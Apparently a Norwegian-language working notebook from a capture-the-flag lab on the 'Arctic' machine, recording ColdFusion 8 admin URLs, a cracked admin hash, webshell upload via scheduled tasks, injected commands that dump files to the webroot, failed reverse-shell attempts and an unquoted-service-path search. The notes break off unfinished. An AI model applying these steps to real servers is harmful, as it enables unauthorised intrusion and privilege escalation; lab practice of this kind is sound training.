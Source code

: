 ## arctic 10.10.10.11

`135/tcp   open  msrpc`

`8500/tcp  open  fmtp`

`49154/tcp open  unknown`

Macromedia ColdFusion MX Server edition 6?

Adobe ColdFusion 8

får login med

`10.10.10.11:8500/CFIDE/administrator/enter.cfm?`

og passord prompt ved

`http://10.10.10.11:8500/CFIDE/wizards/common/_logintowizard.cfm`

[http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/](http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/)

avsløre en mappe. wooooooo

[http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl](http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl) for å vise versjon 8.0.1

\#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F\[\[E&gt;\[$\_6& \Q&gt;\[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true

javascript:alert\(hex\_hmac\_sha1\(document.loginform.salt.value,document.loginform.cfadminPassword.value\)\)

51681279BE771DE147003FBA6A6E4E557F833282

sha1 decrypt = **happyday**

debugging and logging. add scheduled task -&gt; upload cfm shell

[https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html](https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html)

[https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html](http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html)

bra cfm shell her [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

`whoami > C:\ColdFusion8\wwwroot\out.txt`

**arctic/tolis**

kjøre kommandoer til jeg finner noe gøy

Microsoft Windows **Server** **2008 R2 Standard x64**

/c dir "c:\coldfusion8\wwwroot\CFIDE" &gt; c:\coldfusion8\wwwroot\out.txt

/c dir "c:\coldfusion8\lib\neo-datasource.xml" &gt; c:\coldfusion8\wwwroot\out.txt

passord wsagavF3noHWGA8xe7rd4w

/c dir C:\Users\Administrator &gt; c:\coldfusion8\wwwroot\out.txt - ingenting

/c dir "C:\Users\All Users\Desktop" &gt; c:\coldfusion8\wwwroot\out.txt

/c type "c:\users\tolis\Desktop\user.txt" &gt; c:\coldfusion8\wwwroot\out.txt

```
dir c:\ /s /b /o:gn - viser alle fier i subdirs
```

får ut **02650d3a69a70780c302e146a6cb96f3**

prøvd flere reverse shells uten hell

prøvd å laste opp netcat også, men no dice

jsp shell funker. men bare med netcat?

ssl error i metasploit

tasklist /v

fant en unquoted service path for coldfusion8

`wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

`ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe`

sc stop "ColdFusion 8 .NET Service"

funket ikke

whoami &gt; c:\coldfusion8\wwwroot\out.txt

kanskje applocker er enablet?



